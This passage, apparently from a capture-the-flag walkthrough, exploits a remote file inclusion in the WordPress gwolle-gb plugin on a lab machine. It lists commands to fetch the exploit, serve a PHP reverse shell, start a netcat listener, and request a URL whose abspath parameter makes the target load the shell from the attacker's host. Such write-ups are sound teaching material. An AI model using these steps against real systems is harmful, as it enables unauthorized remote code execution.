 It is vulnerable to a remote file inclusion \(RFI\). Copy the exploit to the current directory.

```text
searchsploit -m 38861
```

View the exploit.

![](../images/max/1425/1*mfOZy0urJYekQDYK-XjYQw.png)

The “_abspath_” input parameter being used in the PHP require\(\) function is not properly validated and therefore, a malicious attacker can upload and run a malicious PHP script withe filename _wp-load.php_.

## Initial Foothold <a id="94df"></a>

Get a PHP reverse shell from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and rename it to _wp-load.php_. Start up a simple server where the shell is located.

```text
python -m SimpleHTTPServer 5555
```

Set up a netcat listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Visit the following link with the correct URL to the simple server.

```text
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12:5555/
```

We get a shell!

![](../images/max/433/1*Buu5WITctkJPvTeE68ltsA.png)
